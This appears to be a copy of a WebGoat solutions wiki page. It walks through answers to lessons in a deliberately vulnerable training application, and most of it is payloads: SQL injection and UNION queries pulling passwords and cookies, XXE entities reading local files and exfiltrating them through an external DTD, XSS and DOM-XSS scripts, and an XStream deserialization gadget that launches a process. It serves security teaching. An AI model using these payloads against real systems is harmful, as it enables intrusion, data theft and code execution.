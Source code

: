 https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)


### SQLi ###  

Basic  
Smith - to show it returns smith's records.    
To show exploit; `1=1` can be any true clause:  

```sql  
Smith' or '1'='1   
```

**Bender Login**  
```sql
bender@juice-sh.op' --  
```
```sql 
[2:19 PM]  
101
101 or 1=1
```  
```sql 
Smith' union select userid,user_name, password,cookie,cookie, cookie,userid from user_system_data --
```  

## XXE ##

Simple:  
```xml 
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>  
```

Modern Rest Framework:  
Change content type to: `Content-Type: application/xml` and 
```xml  
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><user>  <username>&root;</username><password>test</password></user>
```  

Blind SendFile   
```xml
  
      Solution:
     
      Create DTD:
     
      <pre>
          <?xml version="1.0" encoding="UTF-8"?>
          <!ENTITY % file SYSTEM "file:///c:/windows-version.txt">
          <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
           %all;
      </pre>
     
      This will be reduced to:
     
      <pre>
          <!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=[contents_file]'>
      </pre>
     
      Wire it all up in the xml send to the server:
     
      <pre>
       <?xml version="1.0"?>
       <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd">
       %remote;
        ]>
       <user>
         <username>test&send;</username>
       </user>
     
      </pre>
     
     
```

### XSS ###
```javascript
<script>alert('my javascript here')</script>4128 3214 0002 1999
``` 

DOM-XSS:  

  Something like 
  `http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere%3Cscript%3Ewebgoat.customjs.phoneHome();%3C%2Fscript%3E
//`   
OR  
`http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere<script>webgoat.customjs.phoneHome();<%2Fscript>`  

### Vuln - Components ###

Jquery page: - it is contrived; but paste that in each box  
```javascript
OK<script>alert("XSS")<\/script>
OK<script>alert("XSS")<\/script>
```
for the deserialization:  got to the link: http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/  to read about why it works so you can talk to it.
```html  
<sorted-set>  
 <string>foo</string>
 <dynamic-proxy>
   <interface>java.lang.Comparable</interface>
   <handler class="java.beans.EventHandler">
     <target class="java.lang.ProcessBuilder">
       <command>
         <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
       </command>
     </target>
     <action>start</action>
   </handler>
 </dynamic-proxy>
</sorted-set>

```

